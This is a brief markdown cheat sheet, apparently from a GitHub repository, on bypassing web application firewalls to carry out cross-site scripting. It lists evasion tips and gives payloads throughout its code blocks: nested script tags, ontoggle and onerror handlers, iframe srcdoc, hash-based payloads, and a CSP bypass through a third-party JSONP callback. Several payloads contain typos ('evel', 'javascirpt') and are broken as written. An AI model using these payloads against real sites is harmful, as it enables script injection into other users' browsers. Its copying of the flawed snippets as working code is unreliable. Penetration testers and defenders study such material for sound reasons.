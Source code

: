 # WAF Bypass

How to bypass a WAF to achieve XSS?

- if the WAF is well-known, search in the net to get the bypass (twitter too)
- If you inject your payload and it is removed, try to add inside the tag `<scr<script>ipt>`
- if it encodes fuzz the js files
- try to use fromCharCode function when the quote is filter
- if you want to discover a payload, pay attention to following notes
    - WAFs commonly use regex rulesets which detect malicious inputs
    - Fuzz to discover which part of the payload is matched by the WAF’s ruleset
    - WAFs commonly are not updated, the newer HTML tag is, the more chance you have
    
    ```html
    <details/open/ontoggle=JS>
    ```
    
    - if you cannot make alert, try to put the payload after `#`, since part is not sent to the server
    
    ```html
    <details/open/ontoggle="location.hash.split('#')[1]">#javascirpt:alert(`XSS`)
    <x/onclick=a=evel,a('/'+location.hash)>here<x>#/-alert(origin)
    ```
    
    - Expand your payload to confuse the WAF
    
    ```html
    <img src"/" =_=" title="onerror='prompt(1)'">
    <--`<img/src=` onerror=alert(1)> --!>
    ```
    
    - Bypass onxxx
    
    ```bash
    onxxx if filter?
    try to fuzz attributes
    for e.g. srcdoc in iframe, href in a and so on
    
    <iframe srcdoc=<script>prompt``</script></iframe>
    ```
    
    - CSP Bypass
    
    ```bash
    <script+src="https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=alert(1337)"</script>
    ```